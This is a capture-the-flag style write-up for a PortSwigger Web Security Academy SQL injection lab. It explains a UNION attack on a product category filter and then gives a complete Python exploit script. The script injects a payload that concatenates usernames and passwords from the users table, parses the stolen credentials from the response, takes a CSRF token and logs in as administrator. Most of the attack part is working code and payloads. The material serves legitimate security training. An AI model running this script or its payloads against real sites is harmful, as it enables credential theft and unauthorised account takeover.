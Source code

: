 ```yaml
---
title: '0 SQLi Lab'
description: 'SQL injection for retrieving multiple values in a single column'
---
```



## SQL injection UNION attack, retrieving multiple values in a single column

<div style="text-align: justify;">
  This lab demonstrates how to retrieve multiple values in a single column using SQL injection and a `UNION` attack. The vulnerable product category filter returns query results in the application's response. The database contains a `users` table with `username` and `password` columns. By concatenating the two columns into a single value using `||'~~'||`, all credentials can be retrieved in one column. This allows extraction of the administrator credentials needed to solve the lab.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- Verify the number of columns and which columns return text (e.g. `'+UNION+SELECT+NULL,'abc'--`).
- Use a payload like `'+UNION+SELECT+NULL,username||'~~'||password+FROM+users--` to retrieve all usernames and passwords in a single column.
- Parse the response to extract credentials.
- Log in using the administrator account to complete the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy (optional, comment out if not needed)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """Check if Burp Suite proxy is running."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_sqli(url, payload):
    """Exploit SQLi and extract credentials table."""
    full_url = url.rstrip("/") + payload
    res = requests.get(full_url, verify=False, proxies=proxies, timeout=10)
    res.raise_for_status()

    soup = BeautifulSoup(res.text, "html.parser")
    creds = {}

    rows = soup.find_all("tr")
    for row in rows:
        cols = row.find_all(["th", "td"])
        if len(cols) == 1:  # single column with "username~~password"
            combo = cols[0].get_text(strip=True)
            if "~~" in combo:
                username, password = combo.split("~~", 1)
                creds[username] = password

    return creds

def login(url, username, password):
    """Log in using CSRF token and credentials, then check if lab solved."""
    login_url = url.rstrip("/") + "/login"
    session = requests.Session()

    # Step 1: Get CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    res.raise_for_status()

    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login form
    data = {
        "csrf": csrf_token,
        "username": username,
        "password": password
    }

    res = session.post(login_url, data=data, verify=False, proxies=proxies)
    res.raise_for_status()

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")

        # Step 3: One last GET on base URL
        base_res = session.get(url, verify=False, proxies=proxies)
        base_res.raise_for_status()

        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in but lab not solved yet.")
            return False
    else:
        print("[-] Login failed.")
        return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    check_burp()

    payload = "/filter?category='+UNION+SELECT+NULL,username||'~~'||password+FROM+users--"

    print("[*] Exploiting SQL injection...")
    creds = exploit_sqli(url, payload)

    if not creds:
        print("[-] No credentials found!")
        sys.exit(1)

    print("[*] Extracted credentials:")
    for user, pw in creds.items():
        print(f"   {user} : {pw}")

    if "administrator" in creds:
        print("[*] Trying to log in as administrator...")
        login(url, "administrator", creds["administrator"])
    else:
        print("[-] Administrator account not found.")

if __name__ == "__main__":
    main()
```